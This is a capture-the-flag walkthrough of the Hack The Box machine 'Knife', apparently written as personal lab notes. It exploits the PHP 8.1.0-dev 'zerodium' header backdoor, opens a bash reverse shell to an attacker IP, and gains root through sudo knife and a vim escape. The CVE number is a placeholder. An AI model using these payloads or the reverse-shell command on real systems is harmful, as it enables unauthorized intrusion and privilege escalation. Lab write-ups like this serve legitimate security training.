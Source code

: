 # HTB: Knife

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.242
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts 10.10.10.242
```

---

## 🖼️ Web Enumeration
```bash
# Server response shows:
# X-Powered-By: PHP/8.1.0-dev

# Directory fuzzing:
feroxbuster -u http://10.10.10.242 -o scans/feroxbuster-root-php
```

---

## ⚔️ [PHP Backdoor RCE (CVE-2021-XXXXX)](HTTP)
```http
# Send request with User-Agentt: zerodium
# PHP code in header gets executed.

GET / HTTP/1.1
Host: 10.10.10.242
User-Agentt: zerodium system('id');
```

---

## 🚀 Reverse Shell
```bash
# On attacker machine:
nc -lnvp 443

# In Burp / curl:
User-Agentt: zerodium system('bash -c "bash -i >& /dev/tcp/10.10.14.15/443 0>&1"');
```

### Shell Upgrade
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
reset
export TERM=screen
```

---

## 🔎 Enumeration (as james)
```bash
whoami
hostname
sudo -l
```

---

## 🔒 Privilege Escalation via `knife`
```bash
# Check sudo rights:
sudo -l
# Output: (root) NOPASSWD: /usr/bin/knife
```

### Method 1: GTFObins - `knife exec`
```bash
sudo knife exec -E "exec '/bin/bash'"
```

### Method 2: Vim Escape
```bash
sudo knife data bag create test output -e vim
# In vim: :!/bin/bash
```

---

## ✅ Flags
```bash
cat /home/james/user.txt
cat /root/root.txt
```

---

## 📋 Resources
- [PHP Backdoor Info](https://news-web.php.net/php.internals/113838)
- [GTFObins - knife](https://gtfobins.github.io/gtfobins/knife/)
- [PHP 8.1.0-dev CVE Threads](https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-insert-secret-backdoor-to-php-source-code/)

